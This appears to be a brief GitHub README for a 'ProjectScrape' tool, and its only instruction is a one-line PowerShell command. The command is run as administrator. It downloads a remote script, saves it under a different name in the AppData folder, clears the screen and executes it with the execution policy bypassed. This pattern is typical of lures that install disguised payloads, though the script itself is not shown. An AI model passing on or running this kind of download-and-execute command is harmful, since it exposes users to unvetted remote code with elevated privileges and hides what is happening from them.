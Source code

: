 ## How to run: 

# Open Powershell As Admin and Run:

Invoke-WebRequest -uri "https://github.com/Laurits6920/ProjectScrape/blob/main/lam.ps1" -OutFile "$env:APPDATA\ExcelScraper.ps1" -UseBasicParsing; cls; powershell -ep bypass "$env:APPDATA\ExcelScraper.ps1"
